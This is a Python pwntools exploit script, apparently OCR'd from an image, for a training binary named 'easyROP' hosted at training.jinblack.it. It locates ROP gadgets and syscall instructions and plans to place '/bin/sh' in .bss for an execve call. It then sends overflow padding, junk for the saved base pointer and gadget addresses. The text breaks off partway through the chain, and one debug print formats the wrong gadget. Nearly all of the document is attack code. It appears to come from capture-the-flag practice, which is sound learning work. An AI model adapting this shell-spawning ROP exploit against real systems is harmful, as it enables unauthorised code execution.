 ```python
index = e.symbols['index']
binsh_addr = index+8
zeros_addr = binsh_addr+8

rop = ROP(e)
magic_gadget = rop.find_gadget(['pop rdi','pop rsi','pop rdx','pop rax','ret'])
syscall = rop.find_gadget(['syscall'])
syscall_ret = rop.find_gadget(['syscall','nop','pop','rbp','ret'])
ret = rop.find_gadget(['ret'])

# checking that everything is all right
print('____________________________________')
print('address of all in one gadget: {} - {}'.format(hex(magic_gadget[0]), p64(int(magic_gadget[0]))))
print('address of syscall: {} - {}'.format(hex(syscall[0]), p64(int(magic_gadget[0]))))
print('address of /bin/sh: {}'.format(hex(binsh_addr)))
print('address of zeros: {}'.format(hex(zeros_addr)))
print('____________________________________')

# trying to minimize replicated code
def sender(payload):
    r.send(payload)
    r.send('\x00'*4)
    print('\n sent: {}'.format(str(payload)))
    print('read {} bytes'.format(str(r.recv())))
    sleep(delay)

# setting up execution environment
context.update(arch='amd64', os='linux')
if debug:
    context.log_level = 'DEBUG'
context.terminal = ['tmux', 'splitw', '-h']
if remote_enabled:
    r = remote("training.jinblack.it", port)
else:
    r = process(binary)
    gdb.attach(r, '''
        b main
        continue
        b * 0x400290
    ''')

r.recvuntil('Try easyROP!')

# SENDING THE ACTUAL EXPLOIT

# padding to get to sebp
for i in range(12):
    sender(b'AAAA')

# junking sebp
sender(b'BBBB')
sender(b'BBBB')

# reading '/bin/sh' into the .bss section to allow the call to execve

# address of pop gadget
sender(p64(magic_gadget[0]))
sender(b'\x00'*4)

# fd from which we take the input
sender(b'\x00'*4)
sender(b'\x00'*4)
```